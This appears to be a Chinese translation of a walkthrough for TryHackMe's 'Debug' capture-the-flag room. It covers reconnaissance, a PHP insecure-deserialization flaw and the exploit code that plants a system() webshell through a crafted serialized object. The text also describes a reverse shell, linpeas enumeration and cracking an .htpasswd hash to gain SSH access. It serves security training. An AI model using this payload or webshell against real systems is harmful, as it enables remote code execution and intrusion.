# TryHackMe 调试报告

> 原文：<https://infosecwriteups.com/tryhackme-debug-write-up-29ea0a7098f?source=collection_archive---------0----------------------->



TryHackMe 上的调试室

[](https://tryhackme.com/room/debug) [## TryHackMe |调试

### Linux 机器 CTF！您将了解枚举、查找隐藏的密码文件以及如何利用 php…

tryhackme.com](https://tryhackme.com/room/debug) 

Debug 是 TryHackMe 的一个免费房间，它围绕网页上存在的 PHP 反序列化漏洞展开

让我们从 nmap 扫描开始

```
nmap -sS -Pn -n -p- -vv -oA nmap/ports <target ip>-sS - SYN scan
-Pn - do not ping for host discovery
-n - do not do DNS resolution
-p- - scan all ports
-vv - print ports as soon as they are discovered
-oA - output the result in all nmap formats
```



nmap 扫描部分结果

扫描很快将端口 22 (SSH)和端口 80 (HTTP)列为开放

扫描完成时没有打开其他端口

让我们看看端口 80 上运行的是什么



Apache Ubuntu 默认页面

一个 apache 默认页面，让我们用 gobuster 看看 web 服务器上有没有别的东西



gobuster 扫描

```
gobuster dir -u [http://10.10.80.241/](http://10.10.80.241/) -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 70 --random-agent -o gobuster-80.txt-u - the base url to check
-w - wordlist to use
-t - number of parallel threads
--random-agent - use a random user agent instead of using "gobuster" as sometimes this causes gobuster to be blocked
-o - output the result in a file
```



有许多端点需要检查



禁止使用/javascript



/备份路径

/backup 看起来很像基本的 web 根目录，为了检查这个假设，我们可以查看 readme.md 是否同时位于/backup/readme.md 和/readme.md 上



下载和检查 readme.md 文件

这两个文件是相同的

由于备份端点有一个 index.html.bak，我猜主“生产”web 根 URL 上应该有一个 index.html



index.html

事实上，这是 apache 的默认页面

index.php 呢(。bak)是否存在于备份文件夹中？



index.php

事实上它是存在的！



index.php 表单

此外，index.php 页面有一个向管理员提交消息的表单

但是，比表单更重要的是/backup 目录中的 index.php.bak，因为我们可以下载该文件，因为 apache 不会执行它，因为它不以 php/php5/phtml 扩展名结尾，所以它被视为任何文本文件



下载 index.php.bak

index.php.bak 文件基本上是一个普通的 HTML 文件，只有一小段 php 代码



index.php.bak 中的 PHP 代码

```
<?php                                                                                                                                                                                                              

class FormSubmit {                                                                                                                                                                                                 

public $form_file = 'message.txt';                                                                                                                                                                                 
public $message = '';                                                                                                                                                                                              

public function SaveMessage() {                                                                                                                                                                                    

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";}public function __destruct() {file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';}}// Leaving this for now... only for debug purposes... do not touch!$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);$application = new FormSubmit;
$application -> SaveMessage();?>
```

该代码使用/index.php 表单中的 GET 参数“name”、“email”和“comments ”,并为管理员创建一条消息

加载页面时，包含消息的 PHP 对象“FormSubmit”被创建，一旦创建，该对象就在 PHP 脚本执行结束时被删除

在 PHP 中，当一个类的实例被删除时，如果对象类有 __destruct()方法，这个 __destruct()函数被调用

更多信息请点击此处

[](https://www.w3schools.com/php/php_oop_destructor.asp) [## PHP OOP 析构函数

### 当对象被析构或者脚本被停止或退出时，析构函数被调用。如果你创建了一个 __destruct()…

www.w3schools.com](https://www.w3schools.com/php/php_oop_destructor.asp) [](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md) [## swisskyrepo/payloads all things

### PHP 对象注入是一个应用程序级别的漏洞，可能允许攻击者执行不同种类的…

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md) 

代码中的 __destruct()函数将变量“message”的内容创建/附加到一个以变量“form_file”的内容命名的文件中

因此，如果我们可以在“message”变量中传递一个 PHP webshell，并将“form_file”设置为一个. PHP 文件名，我们应该能够获得一个 webshell

但是代码告诉我们，FormSubmit 的唯一实例是以编程方式创建的，文件名总是“message.txt ”,消息来自表单输入字段



测试表单



检查提交结果

所以即使我们尝试注入 PHP 代码，它也不会像文件那样被执行。文本文件（textfile）



PHP 代码执行测试



检查我们是否有代码执行，我们没有

我们可以利用的代码中有趣的部分如下



index.php 易受攻击的 PHP 代码

```
// Leaving this for now... only for debug purposes... do not touch!$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
```

在这里，开发人员留下了对 unserialize()的调用，当 GET 参数“debug”不为空时将使用该调用

unserialize()是一个接受字符串输入并从输入本身创建 PHP 对象的函数

因此，如果我们基于找到的代码在本地攻击机器/虚拟机上创建一个 PHP“form submit”对象，将“message”设置为 PHP web shell，将“form_file”设置为. PHP 文件名，对其进行序列化，并将结果字符串作为 index.php 的 GET“debug”参数的值发送，我们应该能够创建一个包含任意内容的 PHP 文件

让我们先做个测试



攻击者机器上的 PHP 代码—exploit.php

```
<?php
class FormSubmit {public $form_file = 'file.notphp';
public $message = 'test content';}print urlencode(serialize(new FormSubmit));
?>
```

上面的代码声明了一个名为“FormSubmit”的 PHP 类，创建了一个实例，对其进行序列化，然后对结果进行 url 编码，因为我们必须将结果发送到 HTTP 服务器



序列化和 URL 编码的 PHP 对象

让我们复制这个字符串，并在“调试”GET 参数中将其发送给 index.php



将有效载荷送往 index.php



检查结果

在/file.notphp 中，我们可以找到我们在 exploit.php 文件中设置的内容

因此，由于 PHP 对象是由 unserialize()创建的，所以它在 PHP 代码执行结束时被删除，然后 __destruct()创建了我们想要的文件

如果我们使用下面的代码创建一个序列化的对象会发生什么？



exploit1.php

```
<?php
class FormSubmit {public $form_file = 'message.php';
public $message = '<?php
    if(isset($_GET[\'cmd\']))
    {
        system($_GET[\'cmd\']);
    }
?>';}print urlencode(serialize(new FormSubmit));
?>
```

这将使用 GET 参数“cmd”通过 system()调用创建一个“message.php”文件，从而允许在目标机器上远程执行代码



序列化和 URL 编码的 webshell

让我们复制这个字符串，并在“调试”GET 参数中将其发送给 index.php



将有效载荷送往 index.php

然后，在访问带有序列化 PHP 对象的 URL 之后，我们检查我们的 webshell 是否按预期工作



正在尝试列出 web 根目录



成功了！

为了以更简单的方式使用这个 webshell，我将切换到 Burp



与之前的请求相同，但在打嗝套件上

让我们将这个请求发送到 repeater，看看我们是否能得到一个 shell



正在检查 bash

的确，我们击中了目标

让我们看看 pentestmonkey 的一个简单的 bash reverse shell 是否有效

 [## 反向外壳备忘单

### 如果你足够幸运，在渗透测试中发现了一个命令执行漏洞，不久之后…

pentestmonkey.net](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 

获得反向外壳

反向外壳工作，我们在目标机器上作为 www-data！



设置 linpeas

在 python3 http.server 上设置 linpeas.sh，以允许从目标机器下载

更多信息请点击此处

[](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) [## Carlos polop/特权升级-牛逼-脚本-套件

### PEASS -特权升级真棒脚本套件(带颜色)…

github.com](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 

Linpeas 跑步

我们在目标机器上运行 linpeas



Linpeas 结果

这里的 Linpeas 提供了我们需要的一切，在它执行的最后，它提供了一些非常有价值的信息



。web 根目录下的 htpasswd 文件

然后，我们可以将这个散列复制到我们的机器上，并在其上执行 john



开裂。与 john 一起使用 htpasswd 哈希

现在，我们可以尝试使用这些凭据通过 ssh 访问机器



通过 ssh 登录

我们有 ssh 访问权限

